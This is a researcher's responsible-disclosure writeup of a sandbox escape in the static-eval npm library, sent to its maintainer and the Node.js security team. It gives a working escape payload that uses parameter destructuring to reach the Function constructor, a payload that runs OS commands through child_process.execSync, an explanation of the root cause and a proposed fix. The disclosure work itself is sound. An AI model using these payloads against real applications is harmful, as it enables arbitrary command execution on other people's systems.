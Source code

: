 <!--
.. title: static-eval sandbox escape original writeup
.. status: private
.. slug: static-eval-sandbox-escape-original-writeup
.. date: 2019-02-17 02:53:30 UTC-03:00
.. tags: 
.. category: 
.. link: 
.. description: 
.. type: text
-->

This is the original writeup I sent to the static-eval mantainer and to the
NodeJS security team before they published [an official
advisory](https://www.npmjs.com/advisories/758):

<pre>

Hi! I found a vulnerability in the static-eval npm library to escape the
sandbox offered by it.

The static-eval module is intended to statically evaluate a code block. In
theory (and assumed by many modules who depend on it) should have no side
effects, should not have have access to the standard library, and effectively
be sandboxed. However if un-sanitized user input is passed to evaluate we can
break out of this “sandbox”.

To find the sandbox escape I was inspired by the previous work done by Matt
Austin[1]. Unlike Matt's technique, mine requires that a variable is defined
and that its value is anything other than a function.

This is the final expression I used to escape the sandbox (I use x as the
variable that is not a function):

    (function({x}){return x.constructor})({x:"".sub})("console.log(process.env)")()

To verify that the vulnerability exists, you can run `npm install static-eval` and
write the following to an eval.js file:

    var evaluate = require('static-eval');
    var parse = require('esprima').parse;

    var src = process.argv[2];
    var ast = parse(src).body[0].expression;

    console.log(evaluate(ast, {x:1}));

(this a modified version of the example on the readme[2]. The only change I did
was to define the x variable so my exploit works)

Then, run the following:

    node eval.js '(function({x}){return x.constructor})({x:"".sub})("console.log(process.env)")()'

To log the environment variables of the system, confirming the presence of the
vulnerability. You can also execute more dangerous payloads, such as this one
that will execute the `id` command on the system and print its output:

    node eval.js '(function({x}){return x.constructor})({x:"".sub})("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()'

It can also be replaced by any other OS command.


Exploit explaination
--------------------

Blocking access to function attributes in version 2.0 was surprisingly a good
way of preventing the majority of the JS sandbox bypass techniques so I had to
be more creative to achieve it. Matt already pointed out[3] that the dynamic
Function call should be refactored so I targeted that.

I noted that when you define an inline function, its body is analyzed to check
you don't access attributes of functions. This check is done when the function
is defined and not when it is called. This sounded strange to me so I started
looking at it.

To decide the type of the variables at definition time, it uses the initial
variables passed to the evaluate function. Then, to ensure its value is not
overwritten in function parameters, it sets the value of variables named as a
function parameter to null:

    node.params.forEach(function(key) {
        if(key.type == 'Identifier'){
          vars[key.name] = null;
        }
    });

Unfortunately, this doesn't work as expected if I use object destructuring[4]
in the function parameters. In this case, the value of `key.type` will be
`ObjectPattern` so the variable won't be set to null. Then, the system will
confuse between the initial value of the variable and the actual one that
depends on the function call. For example, if I eval this when x has an initial
value of 1:

    (function({x}){return x.constructor})({x:"".sub})

when the function is defined, the system will think that I'm accessing the
constructor of 1 (the initial value of x). This is allowed so the function will
be created. But actually, when the function is executed the value of x will
depend on the function parameters. In this case it will be "".sub that is a
function, so the whole expression will return the function constructor, that
I'm not supposed to access.


Recommended fix
--------------

The easiest thing to do to fix this exploitation technique would be to forbid
function definitions that use parameter destructuring:

    node.params.forEach(function(key) {
        if(key.type == 'Identifier'){
          vars[key.name] = null;
        }
        else return FAIL;
    });

However, I believe there might be other similar techniques to escape the
sandbox again, so the long-term fix would be, as Matt said before, to refactor
out the dynamic Function call completely.


References
----------

[1] https://maustin.net/articles/2017-10/static_eval
[2] https://github.com/substack/static-eval#example
[3] https://github.com/substack/static-eval/pull/18
[4] https://simonsmith.io/destructuring-objects-as-function-parameters-in-es6/

</pre>
